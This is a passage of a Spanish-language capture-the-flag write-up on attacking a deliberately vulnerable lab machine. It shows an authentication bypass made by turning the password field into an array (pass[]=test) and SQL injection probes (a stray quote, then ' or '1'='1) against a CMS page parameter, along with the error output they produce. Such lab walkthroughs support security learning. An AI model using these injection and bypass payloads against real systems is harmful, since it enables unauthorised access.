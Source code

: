 ```bash
imfadministrator
```

Explicación: tenemos otra pista con ' imfadministrator'

---

## Explotación

Acudiendo a esta última ruta o endpoint vemos una página de autentificación. Al probar usuarios de testeo, la página revela que el usuario no es válido, pero al probar con 'rmichaels' vemos que es la contraseña lo que no es correcto, por lo que tenemos una potencial vía de ataque por Fuera Bruta

![Captura](./Imágenes/web_3.png)

Enviamos las petición a [[BurpSuite) y en nuestra data que es `user=rmichaels&pass=test` añadimos `[]` así: `user=rmichaels&pass[]=test`. Le damos a 'Forward' para que la petición fluya y vemos otra pista

![Captura](./Imágenes/burp_1.png)

Además de la pista en forma de flag en base64 (resultado = continueTOcms) tenemos el acceso a un nuevo endpoint

![Captura](./Imágenes/web_4.png)



![Captura](./Imágenes/web_5.png)


Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home'
```

Resultado:

```bash
Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29
```

Explicación: tan solo poniendo una comilla al final de la URL vemos que se nos muestra un mensaje de error, el cual nos sugiere que puede ser vulnerable a [[SQLi)


Acción:

```url
http://192.168.1.67/imfadministrator/cms.php?pagename=home' or '1'='1 
```

Resultado:

```bash
 Under Construction. 
```
